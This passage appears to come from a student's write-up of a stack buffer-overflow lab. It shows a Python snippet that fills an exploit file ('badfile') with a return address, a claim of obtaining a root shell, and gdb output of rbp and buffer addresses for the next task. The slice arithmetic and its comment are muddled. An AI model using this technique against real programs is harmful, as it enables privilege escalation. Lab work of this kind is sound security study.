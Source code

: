 ```python
for offset in range(50): # since b/w 100 and 200, I divide 200/4  = 50 to for range to add return address entirely
	content[offset*L:offset*4 + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```


![](attachment/460e87a1353b05680588fed69ec33272.png)

Now, I got the rootshell access.

---

### Task 5


![](attachment/67d4bdc00afb157d9cbbee68223f31cc.png)

*rbp and buffer values in debug mode:*
```bash
Breakpoint 1, bof (str=0x7fffffffe0d0 "") at stack.c:16
16	{
gdb-peda$ p $rbp
$1 = (void *) 0x7fffffffe160
```
